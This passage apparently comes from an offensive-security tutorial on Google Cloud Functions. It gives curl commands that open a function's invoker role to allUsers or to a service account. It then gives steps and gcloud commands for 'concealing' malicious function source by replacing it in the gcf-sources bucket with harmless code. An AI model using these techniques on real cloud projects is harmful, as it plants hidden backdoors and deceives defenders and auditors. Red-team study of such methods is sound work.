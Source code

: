 ```powershell

# member:allUsers
curl -X POST -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -d "{\"policy\":{\"bindings\":[{\"role\":\"roles/cloudfunctions.invoker\",\"members\":[\"allUsers\"]}],\"version\":3}}" https://cloudfunctions.googleapis.com/v1/projects/<project-id>/locations/<region>/functions/<function-name>:setIamPolicy

# member:serviceAccount
curl -X POST -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -d "{\"policy\":{\"bindings\":[{\"role\":\"roles/cloudfunctions.invoker\",\"members\":[\"serviceAccount:<service-account>\"]}],\"version\":3}}" https://cloudfunctions.googleapis.com/v1/projects/<project-id>/locations/<region>/functions/<function-name>:setIamPolicy
```
We can move into Concealing the Source Code. But to do that we'd require certain permissions to be granted. 

### APIs and Permissions required for Concealing the Source Code

APIs need to enabled:
- None

Permissions required:
- storage.objects.list
- storage.objects.delete
- storage.objects.create

**storage.objects.list** - This permission is required to list the objects in the Cloud Storage Bucket. It is required because the Cloud Storage Object name is in the format of `<function_name>-<unique_identifier>`. We can't figure out the Unique Identifier.

**storage.objects.delete** - This permission is required to delete an object from the Cloud Storage Bucket. Basically it will help replace the Malicious Source Code with the Non-malicious source code. 

**storage.objects.create** - This permission is required to create a new object in the Cloud Storage Bucket. This is required because we will be uploading the Non-Malicious source code to the Cloud Storage Bucket. 

### Concealing the Source Code

>Before moving forward pack the Non-Malicious Source Code (main.py) and requirements.txt into a zip file and rename it "function-source.zip".

>gCloud requires fairly less permissions to conceal the source code. Thus, there is no need to narrow down any permission using Cloud Function API.

There are three steps to conceal the source code via gCloud:

1. List the objects in the bucket "gcf-sources-<project_number>-&lt;region>".

Command:

```powershell
# List the Project ID
gcloud config get-value project

# Convert Project ID to Project Number
gcloud projects describe <project-id> --format="value(projectNumber)"

# List the objects in the bucket
gcloud storage ls gs://gcf-sources-<project_number>-<region> 
```

